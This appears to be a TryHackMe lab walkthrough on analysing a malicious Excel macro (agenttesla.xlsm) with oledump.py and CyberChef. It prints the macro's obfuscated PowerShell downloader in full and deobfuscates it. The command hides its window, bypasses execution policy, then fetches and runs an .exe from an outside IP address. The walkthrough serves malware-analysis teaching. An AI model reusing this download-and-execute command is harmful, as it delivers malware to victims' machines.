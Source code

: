 In this task, we will use `oledump.py` to conduct static analysis on a potentially malicious Excel document. 

`Oledump.py` is a Python tool that analyzes **OLE2** files, commonly called Structured Storage or Compound File Binary Format. **OLE** stands for **Object Linking and Embedding,** a proprietary technology developed by Microsoft. OLE2 files are typically used to store multiple data types, such as documents, spreadsheets, and presentations, within a single file. This tool is handy for extracting and examining the contents of OLE2 files, making it a valuable resource for forensic analysis and malware detection.

Let's start!

Using the virtual machine attached to task 2, the **REMnux VM**, navigate to the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. Our target file is named `agenttelsa.xlsm`. Run the command `oledump.py agenttesla.xlsm`. See the terminal below.

Terminal

```-shell-session
ubuntu@10.10.43.210:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm 
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
```

 Based on OleDump's file analysis, a VBA script might be embedded in the document and found inside `xl/vbaProject.bin`. Therefore, oledump will assign this with an index of A, though this can sometimes differ. The A (index) +Numbers are called **data streams**. 

Now, we should be aware of the data stream with the capital letter **M**. This means there is a **Macro**, and you might want to check out this data stream, `'VBA/ThisWorkbook'`.

So, let's check it out! Let's run the command `oledump.py agenttesla.xlsm -s 4`. This command will run the oledump and look into the actual data stream of interest using the parameter `-s 4`,  wherein the `-s` parameter is short for `-select`  and the number four(`4`) as the data stream of interest is in the 4th place(`A4: M 688 'VBA/ThisWorkbook'`)

Terminal

```-shell-session
ubuntu@10.10.43.210:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4
```

**View Results**

The results above are in hex dump format. There might be some familiar words from a trained eye. However, this is still challenging for us, don't you think? So, let's make it more readable and easier to understand.

We will run an additional parameter `--vbadecompress` in addition to the previous command. When we use this parameter, oledump will automatically decompress any compressed VBA macros it finds into a more readable format, making it easier to analyze the contents of the macros.

Terminal

```-shell-session
ubuntu@10.10.43.210:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

**View Results**

  
This is much better, isn't it?

 Now, we don't need to be able to read the whole script but rather familiarize ourselves with some characters and commands. Our interest here would be the value of **Sqtnew** because if you check the script, there is a Public IP, a PDF, and a .exe inside. We might want to look into this further.

Terminal

```-shell-session
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
```

  

We will copy the first value of **Sqtnew** and paste it into **CyberChef's** input area. You can open a local copy of CyberChef inside the REMnux VM or go to this [link](https://gchq.github.io/CyberChef/) to access the online version. Use whichever works for you. You might want to check our room about [CyberChef](https://tryhackme.com/r/room/cyberchefbasics) to get more familiar with the tool.

Next, select the **Find/Replace** operation twice. Looking back at the script, the 2nd and 3rd values of Sqtnew have a command to replace ***** with **""** and **^** with **""**. We would assume that the **""** means there is no value. So, with our first operation selected, we put the value ***** and selected **SIMPLE STRING** as additional parameters. In contrast, **we did not put anything on the Replace box** or have any value.  The same applies to our second operation: we put the value **^** and selected SIMPLE STRING, and the replace box has no value. See the image below.

![CyberChef using Find/Replace twice to fix PowerShell script.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e6bbe59a46ee9407fd65bbe/room-content/5e6bbe59a46ee9407fd65bbe-1727075711805.png)  

Now, this is more readable! However, for our starters, this can be challenging. So, we will tackle the most basic commands here.

Terminal

```-shell-session
"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"
```

Let's break it down!

- So, in PowerShell, running the `-WindowStyle` parameter allows you to control how the PowerShell window appears when executing a script or command. In this case, `hidden` means that the PowerShell window **won’t be visible to the user**.
- By default, PowerShell restricts script execution for security reasons. The `-executionpolicy` parameter allows you to override this policy. The `bypass` means that the **execution policy is temporarily ignored**, allowing any script to run without restriction.
- The `Invoke-WebRequest` is commonly used for downloading files from the internet.
    - The `-Uri` Specifies the URL of the web resource you want to retrieve. In our case, the script is downloading the resource `Doc-3737122pdf.exe` from `http://193.203.203.67/rt`/.
    - The `-OutFile` specifies the local file where the downloaded content will be saved.  In this case, the Doc-3737122pdf.exe will be saved to $TempFile.
- The `Start-Process` is used to execute the downloaded file that is stored in `$TempFile` after the web request.

To summarize, when the document `agenttesla.xlsm` is opened, a Macro will run! This Macro contains a VBA script. The script will run and will be running a PowerShell to download a file named `Doc-3737122pdf.exe` from `http://193.203.203.67/rt/`, save it to a variable $TempFile, then execute or start running the file inside this variable, which is a binary or a .exe file (`Doc-3737122pdf.exe`**)**. This is a usual technique used by threat actors to avoid early detection. Pretty nasty, right?!

Kudos to you for figuring it out!